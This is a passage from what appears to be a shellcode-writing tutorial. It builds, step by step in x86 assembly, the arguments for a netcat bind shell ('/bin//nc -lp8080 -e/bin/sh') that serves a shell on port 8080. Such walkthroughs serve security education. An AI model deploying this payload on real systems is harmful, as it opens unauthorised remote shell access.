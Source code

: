 ascii: *cn//*{: style="color: LightSalmon"}  -> hex: *0x636e2f2f*{: style="color: LightSalmon"}  
ascii: *nib/*{: style="color: LightSalmon"}  -> hex: *0x6e69622f*{: style="color: LightSalmon"} 

Another way is using the instruction *push byte*{: style="color: LightGreen"} to push one byte, *push word*{: style="color: LightGreen"}
to push two bytes. Then the string will be divided as:

ascii: *c*{: style="color: LightSalmon"}     -> hex: *0x63*{: style="color: LightSalmon"}  
ascii: *n/*{: style="color: LightSalmon"}    -> hex: *0x6e2f*{: style="color: LightSalmon"}  
ascii: *nib/*{: style="color: LightSalmon"}  -> hex: *0x6e69622f*{: style="color: LightSalmon"}  

```
  xor edx, edx      ; Use edx as null byte
  
  push edx          ; null termination for '/bin//nc'
  push 0x636e2f2f   ; cn//
  push 0x6e69622f   ; nib/
  mov ebx, esp      ; Now ebx points to the '/bin//nc' string
```

The second argument *-lp8080*{: style="color: LightSalmon"} also isn't a multiple of four bytes. I can't use slashes here so we'll use the second method.

```
>>> '-lp8080'[::-1]
'0808pl-'
```

ascii: *0*{: style="color: LightSalmon"}     -> hex: *0x30*{: style="color: LightSalmon"}  
ascii: *80*{: style="color: LightSalmon"}    -> hex: *0x3830*{: style="color: LightSalmon"}  
ascii: *8pl-*{: style="color: LightSalmon"}  -> hex: *0x38706c2d*{: style="color: LightSalmon"}  

```
  push edx          ; null termination for '-lp8080'
  push byte 0x30    ; 0
  push word 0x3830  ; 80
  push 0x38706c2d   ; 8pl-
  mov eax, esp      ; Now eax points to the '-lp8080' string
```

And do it again with the third argument.
```
  push edx          ; null termination for '-e/bin/sh'
  push byte 0x68    ; h
  push 0x732f6e69   ; s/ni
  push 0x622f652d   ; b/e-
  mov ecx, esp      ; Now ecx points to the '-e/bin/sh' string
```

Now I need to construct the array of those arguments. Remember that it also has to be null terminated!
```
  push edx  ; null termination for the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  push ecx  ; points to '-e/bin/sh'
  push eax  ; points to '-lp8080'
  push ebx  ; points to '/bin//nc'
  mov ecx, esp ; Now ecx points to the beginning of the array ['/bin//nc', '-lp8080', '-e/bin/sh']
```
